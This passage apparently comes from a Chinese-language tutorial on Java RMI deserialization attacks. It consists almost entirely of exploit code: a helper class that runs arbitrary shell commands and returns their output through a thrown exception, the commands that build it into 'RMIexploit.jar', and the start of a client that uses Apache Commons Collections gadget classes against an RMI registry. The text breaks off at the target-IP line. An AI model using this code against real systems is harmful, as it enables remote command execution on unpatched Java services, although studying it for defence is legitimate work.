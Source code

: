 ErrorBaseExec

```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ErrorBaseExec {

    public static void do_exec(String args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        Exception e=new Exception(result);
        throw e;
    }
}
```

编译成RMIexploit.jar

```
javac ErrorBaseExec.java
jar -cvf RMIexploit.jar ErrorBaseExec.class
```

客户端

```
package RMIunser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.util.HashMap;
import java.util.Map;


public class Client {
    public static Constructor<?> getFirstCtor(final String name)
            throws Exception {
        final Constructor<?> ctor = Class.forName(name).getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        return ctor;
    }

    public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1"; //注册中心ip
```